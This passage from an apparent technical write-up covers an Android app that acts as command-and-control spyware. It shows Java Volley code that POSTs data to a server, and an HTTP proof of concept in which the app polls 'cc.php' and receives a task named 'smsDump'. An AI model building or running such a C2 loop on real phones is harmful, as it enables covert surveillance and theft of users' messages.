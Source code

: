            @Override
            public String getBodyContentType() {
                return "application/x-www-form-urlencoded; charset=utf-8";
            }

            @Override
            public byte[] getBody() {
                try {
                    return data.getBytes();
                } catch (Exception uee) {
                    VolleyLog.wtf("Unsupported Encoding while trying to get the bytes of %s using %s", data, "utf-8");
                    return null;
                }
            }

            @Override
            protected Response<String> parseNetworkResponse(NetworkResponse response) {
                String responseString = "";
                if (response != null) {
                    responseString = String.valueOf(response.statusCode);
                    // can get more details such as response.headers
                }
                return Response.success(responseString, HttpHeaderParser.parseCacheHeaders(response));
            }
        };
        requestQueue.add(stringRequest);
    } catch (Exception e) {
        e.printStackTrace();
    }
}
{% endhighlight %}

### 2.3.2. Proof of Concept
To test the app's functionality without having to restart the phone, I have added a button on the `MainActivity` which invokes the `Fetcher` service, or in other words, makes a simple HTTP request as shown below:

```
GET /cc.php?id=6f02ea91-746a-43b2-a646-f50338cd6b2a HTTP/1.1
User-Agent: Dalvik/2.1.0 (Linux; U; Android 9; SM-G960F Build/PPR1.180610.011)
Host: 192.168.0.14
Connection: Keep-Alive
Accept-Encoding: gzip
```
The server responds as follows:
```
HTTP/1.1 200 OK
Date: Thu, 14 Nov 2019 00:15:31 GMT
Server: Apache/2.4.35 (Win32) OpenSSL/1.1.0i PHP/7.2.11
ETag: "48-59740498aca14"
Accept-Ranges: bytes
Content-Length: 72
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{
	"uuid":"6f02ea91-746a-43b2-a646-f50338cd6b2a",
	"task":"smsDump"
}
```
